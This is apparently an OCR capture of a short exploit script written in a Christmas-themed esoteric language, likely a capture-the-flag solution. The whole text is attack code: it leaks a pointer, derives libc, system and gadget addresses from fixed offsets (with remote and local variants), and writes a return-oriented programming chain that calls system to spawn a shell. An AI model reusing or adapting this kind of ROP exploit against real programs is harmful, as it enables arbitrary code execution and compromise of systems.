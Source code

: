 ```
        gift size is 64;
        reindeer Rudolph delivering gift fdb pad size;
        gift size is 12;
        reindeer Rudolph delivering gift fdb pad size;
        gift size is 8;
        gift ptr is ptr - 56;
        reindeer Rudolph delivering gift fdb ptr size;
        # set rop#
        # remote #
        gift libc is sleep  - 972880;
        gift system is libc + 346848;
        gift poprdi is libc + 190149;
        gift ret is libc + 190150;
        # local #
        # gift libc is  sleep - 941888; #
        # gift system is libc + 349200; #
        # gift poprdi is libc + 158578; #
        # gift ret is libc + 158579; #
        gift ptr is ptr + 3072; 
        gift rop is rop + 8;
        reindeer Vixen delivering gift rop ptr size;
        gift rop is rop + 8;
        gift ptr is ptr - 1120; # shell#
        reindeer Vixen delivering gift rop ptr size;
        gift rop is rop + 8;
        gift ptr is ptr + 1152; # ret #
        reindeer Vixen delivering gift rop ptr size;
        gift rop is rop + 8;
        gift ptr is ptr - 64; # system #
        reindeer Vixen delivering gift rop ptr size;
ok, they should already have a gift;
```

